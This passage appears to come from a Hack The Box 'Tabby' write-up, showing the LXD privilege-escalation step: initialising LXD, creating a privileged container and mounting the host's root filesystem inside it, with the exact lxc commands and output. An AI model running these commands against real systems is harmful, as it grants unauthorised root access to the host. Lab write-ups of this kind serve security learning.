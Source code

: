 Okay, nice. So now we will initialize lxd like it tells us. And like before, we have to specify lxd's filepath. I chose to keep all defaults by hitting enter on each option:  

![LXD INIT](/assets/images/HTB/tabby/lxd-init.png)  

Now it is time to initialize our image, setting the vulnerable flag to give us total access with regard to our container.  

```bash
# Note: I named my image 'rooted' and my container 'rootcontainer', and soon my device 'rootdevice'. Name them what you like.

/snap/bin/lxc init rooted rootcontainer -c security.privileged=true

Creating rootcontainer
```  

Almost there! Create a device and mount the root filesystem!  

```bash
/snap/bin/lxc config device add rootcontainer rootdevice disk source=/ path=/mnt/root recursive=true

Device rootdevice added to rootcontainer
```  

